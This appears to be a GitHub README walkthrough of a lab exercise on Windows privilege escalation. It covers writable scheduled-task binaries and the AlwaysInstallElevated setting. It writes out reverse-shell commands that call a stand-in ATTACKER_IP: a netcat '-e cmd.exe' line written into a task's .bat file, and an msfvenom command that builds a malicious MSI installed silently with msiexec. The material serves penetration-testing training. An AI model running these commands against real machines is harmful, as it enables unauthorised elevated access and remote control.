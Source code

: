<h1>$${\color{yellow}Other} \space {\color{red}Quick} \space {\color{white}Wins} $$</h1>


Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.

*********

* ## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the ```schtasks``` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```
C:\> schtasks /query /tn vulntask /fo list /v
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/fd5c387e-9be9-4179-8939-57e13ed477e7">
</p>

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use ```icacls``` :

```
C:\> icacls c:\tasks\schtask.bat
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/508c2f73-4605-47d9-8f9c-d81fe2497a66">
</p>

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, ```nc64.exe``` can be found on ```C:\tools``` . Let's change the bat file to spawn a reverse shell:

```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:


```
C:\> schtasks /run /tn vulntask
```

And you will receive the reverse shell with taskusr1 privileges as expected:


<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/afeee701-3bed-4bd4-b4ea-efde0880d7db">
</p>


*********

* ## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using ```msfvenom``` , as seen below:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

********

<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****








